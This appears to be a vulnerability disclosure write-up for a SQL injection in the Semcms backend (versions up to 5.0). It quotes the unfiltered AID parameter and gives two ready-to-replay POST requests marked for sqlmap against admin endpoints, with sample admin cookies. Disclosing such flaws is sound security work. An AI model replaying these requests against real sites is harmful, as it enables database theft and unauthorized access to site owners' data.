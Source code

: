 ## Semcms backend SQL injection vulnerability



### Semcms  introduce

SemCms is an open-source foreign trade enterprise website management system, primarily used for foreign trade companies. It is compatible with major browsers such as IE, Firefox, Google Chrome, and 360.



### Vulnerability description

SQL Injection is a web security vulnerability that allows attackers to interfere with the queries an application makes to its database. By inserting malicious SQL statements, attackers can potentially access sensitive data, modify or delete records, and in some cases, take control of the entire database.



```
Semcms Project address

https://github.com/J1095/one
```



Locate the source code to the backend directory's `SEMCMS_Fuction.php`. The input parameter values are not filtered and are directly used in database queries.  The vulnerable parameter is AID.

```
if(isset($_POST["AID"])){$area_arr=$_POST["AID"];$area_arr = implode(",",$area_arr);}else{$area_arr="";}
```

![image-20250118230926043](./assets/image-20250118230926043.png)

![image-20250118231818600](./assets/image-20250118231818600.png)

The first vulnerability point data packet.

```
POST /G45HTO_Admin/SEMCMS_Images.php?Class=Deleted&CF=Images&page= HTTP/1.1
Host: testsemcms
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:133.0) Gecko/20100101 Firefox/133.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 13
Origin: http://testsemcms
Connection: close
Referer: http://testsemcms/G45HTO_Admin/SEMCMS_Images.php
Cookie: __tins__4329483=%7B%22sid%22%3A%201733579893865%2C%20%22vd%22%3A%206%2C%20%22expires%22%3A%201733581851212%7D; __51cke__=; __51laig__=6; scusername=%E6%80%BB%E8%B4%A6%E5%8F%B7; scuseradmin=Admin; scuserpass=c4ca4238a0b923820dcc509a6f75849b
Upgrade-Insecure-Requests: 1
Priority: u=4

AID%5B%5D=243*
```

The two vulnerability point data packet.

```
POST /G45HTO_Admin/SEMCMS_Inquiry.php?Class=Deleted&CF=Inquriy&page= HTTP/1.1
Host: testsemcms
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:133.0) Gecko/20100101 Firefox/133.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 23
Origin: http://testsemcms
Connection: close
Referer: http://testsemcms/G45HTO_Admin/SEMCMS_Inquiry.php
Cookie: __tins__4329483=%7B%22sid%22%3A%201733579893865%2C%20%22vd%22%3A%206%2C%20%22expires%22%3A%201733581851212%7D; __51cke__=; __51laig__=6; scusername=%E6%80%BB%E8%B4%A6%E5%8F%B7; scuseradmin=Admin; scuserpass=c4ca4238a0b923820dcc509a6f75849b
Upgrade-Insecure-Requests: 1
Priority: u=4

languageID=&AID%5B%5D=1*
```

SQLmap verification as follows:

![Snipaste_2024-12-07_22-51-46](./assets/Snipaste_2024-12-07_22-51-46.png)



#### The affected version

```
Semcms <= 5.0
```

Malicious attackers can exploit the vulnerability to illegally obtain data and even gain unauthorized access to the website.